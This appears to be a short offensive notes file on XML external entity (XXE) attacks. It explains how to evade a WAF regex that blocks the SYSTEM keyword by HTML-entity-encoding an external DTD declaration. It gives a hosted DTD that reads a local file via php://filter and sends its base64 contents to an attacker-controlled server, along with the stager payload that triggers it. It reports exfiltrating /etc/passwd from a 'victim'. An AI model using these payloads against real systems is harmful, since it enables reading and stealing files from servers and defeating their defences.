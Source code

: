 # XXE-Notes

### WAF bypass

A usefull technique to bypass WAF forbiden words like SYSTEM is using html entities, the technique here can be used to avoid using blacklisted words.

This is also valid for a regex in this case we will bypass the following regex `/<!(?:DOCTYPE|ENTITY)(?:\s|%|&#[0-9]+;|&#x[0-9a-fA-F]+;)+[^\s]+\s+(?:SYSTEM|PUBLIC)\s+[\'\"]/im`

This regex is stoping us to create a external entity with the following structure 

`<!ENTITY file SYSTEM "file:///path/to/file">` to avoid this we are going to use html entities to encode `<!ENTITY % dtd SYSTEM "http://ourserver.com/bypass.dtd" >` so we can call our dtd in a server we control.

The html entity equivalent is `&#x3C;&#x21;&#x45;&#x4E;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4D;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x6F;&#x75;&#x72;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2E;&#x63;&#x6F;&#x6D;&#x2F;&#x62;&#x79;&#x70;&#x61;&#x73;&#x73;&#x2E;&#x64;&#x74;&#x64;&#x22;&#x20;&#x3E;`

#### Server payload

We have to serve our dtd like the following:
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/path/to/file">
<!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://ourserver.com/bypass.xml?%data;'>">
%abt;
```
We can modify this payload as we need as this will not be blocked by the WAF or regex on the victim.

#### Stager payload
The following payload will call our external dtd bypassing the SYSTEM blacklisted word:
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % a "&#x3C;&#x21;&#x45;&#x4E;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4D;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x6F;&#x75;&#x72;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2E;&#x63;&#x6F;&#x6D;&#x2F;&#x62;&#x79;&#x70;&#x61;&#x73;&#x73;&#x2E;&#x64;&#x74;&#x64;&#x22;&#x20;&#x3E;" >%a;%dtd;]><data><env>&exfil;</env></data>
```

And all we need to do is sending the payload and wait for the exfil in our server
![Bypass ](img/exfil.png)
And we can see is the base64 of the /etc/passed
